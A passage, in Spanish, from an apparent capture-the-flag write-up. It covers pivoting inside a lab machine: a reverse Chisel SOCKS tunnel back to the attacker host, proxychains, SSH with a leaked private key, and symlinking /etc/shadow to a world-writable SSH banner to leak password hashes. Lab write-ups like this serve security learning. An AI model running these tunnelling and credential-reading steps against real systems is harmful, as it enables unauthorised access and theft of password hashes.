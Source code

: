 lo paso a la máquina víctima y al ejecutarlo veo lo siguiente:

```css
./ports.sh
Puerto abierto encontrado: 172.17.0.1:22
```

lo que significa que ahí está el ssh que no encontrábamos.

#### Tunnel With Chisel

Nos descargamos [Chisel](https://github.com/jpillora/chisel), lo pasamos a la máquina y entablamos un tunel de la siguiente manera:

```css
# Máquina atacante
./chisel server --reverse -p 7777
```

```css
# Máquina víctima
./chisel client <IP>:7777 R:socks
```

Una vez establecido el túnel, configuramos `proxychains` para que funcione con el proxy de chisel (probablemente solo sea cambiar la última línea del archivo `/etc/proxychains.conf` por `socks5 127.0.0.1 1080`) y descargamos la clave privada que encontramos en el puerto 80:

```css
wget <IP> && mv index.html id_rsa
```

ahora nos tenemos que conectar pero no tenemos usuario, pero al probar en conectarnos de la manera que sea nos dice lo siguiente:

```css
proxychains ssh -i id_rsa test@172.17.0.1
```

```css
shawa was here.
```

por lo que ya tenemos un posible usuario: `shawa`

y ahora si nos conectamos a la máquina por ssh:

```css
proxychains ssh -i id_rsa shawa@172.17.0.1
```

### User shawa

Siendo el usuario shawa, podemos ver un archivo en `/opt` llamado `banner.txt`, este pertenece a root y todos los usuarios pueden leerlo y escribirlo. Si lo leemos vemos que dice "shawa was here.", lo que significa que es el mensaje que muestra ssh al conectarnos. Sabiendo esto, creamos un enlace simbólico al `/etc/shadow` en el archivo banner.txt:

```css
ln -sf /etc/shadow /opt/banner.txt
```
